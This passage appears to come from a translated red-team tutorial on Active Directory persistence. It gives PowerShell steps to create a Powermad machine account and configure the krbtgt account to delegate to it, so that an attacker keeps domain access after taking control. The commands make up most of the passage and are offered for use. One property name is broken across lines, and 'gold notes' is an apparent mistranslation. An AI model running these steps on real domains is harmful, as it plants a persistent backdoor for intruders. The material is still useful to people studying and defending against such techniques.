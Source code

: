 ![](./images/40.png#pic_center)

#### krbtgt user delegation

After obtaining domain control permissions, you can set delegation attributes for the `krbtgt` user to achieve the purpose of maintaining permissions, similar to a variant of gold notes.

Conditions of use:
- Obtain domain control permissions

1. Create a machine account

```bash
# Create a machine account using PowerMad tool
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount test5 -Password $(ConvertTo-SecureString "Passw0rd" -AsPlainText -Force)

# Query whether the query was successfully added
net group "domain computers" /domain
```

2. Domain control configuration `krbtgt` user's delegation attributes

```bash
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount test5$
Get-ADUser krbtgt -Properties PrincipalsAllow
edToDelegateToAccount
```
